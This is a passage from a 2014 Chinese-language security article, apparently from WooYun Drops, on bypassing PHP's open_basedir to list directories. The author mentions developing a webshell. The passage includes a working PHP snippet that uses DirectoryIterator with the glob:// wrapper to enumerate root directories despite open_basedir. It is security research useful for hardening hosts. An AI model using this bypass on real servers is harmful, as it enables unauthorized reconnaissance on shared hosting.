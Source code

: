 # PHP 绕过 open_basedir 列目录的研究

2014/11/21 16:05 | [phith0n](http://drops.wooyun.org/author/phith0n "由 phith0n 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

近期由于在开发自己的 webshell，所以对 PHP 一些已有的漏洞进行了一定的研究，并且也自己发现了部分 PHP 存在的安全隐患。这篇文章我来与大家分享一下自己对于 PHP 中 open_basedir 绕过并列举目录的方法总结。

## 0x01 open_basedir 的简介

* * *

Open_basedir 是 PHP 设置中为了防御 PHP 跨目录进行文件（目录）读写的方法，所有 PHP 中有关文件读、写的函数都会经过 open_basedir 的检查。

Open_basedir 实际上是一些目录的集合，在定义了 open_basedir 以后，php 可以读写的文件、目录都将被限制在这些目录中。

设置 open_basedir 的方法，在 linux 下，不同的目录由“:”分割，如“/var/www/:/tmp/”；在 Windows 下不同目录由“;”分割，如“c:/www;c:/windows/temp”。

在现在这个各种云、虚拟主机横行的时期，人们希望 open_basedir 作为一个横亘在不同用户之间的屏障，有力地保障用户的主机能独立运行，但事实并非人们想象的那么简单。

我们这篇文章着重讲的将是绕过 open_basedir 进行目录的列举与遍历，为何我们不说具体文件的读、写，因为文件读写的洞是危害比较大的漏洞了，在 php5.3 以后很少有能够绕过 open_basedir 读写文件的方法。

## 0x02 利用 DirectoryIterator + Glob 直接列举目录

* * *

这是@/fd 脚本（http://zone.wooyun.org/content/11268）里给出的第一个方法。

DirectoryIterator 是 php5 中增加的一个类，为用户提供一个简单的查看目录的接口（The DirectoryIterator class provides a simple interface for viewing the contents of filesystem directories）。

glob: 数据流包装器是从 PHP 5.3.0 起开始有效的，用来查找匹配的文件路径。

结合这两个方式，我们就可以在 php5.3 以后对目录进行列举。在实测中，我们得知，此方法在 Linux 下列举目录居然可以无视 open_basedir。

示例代码：

```
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>

```
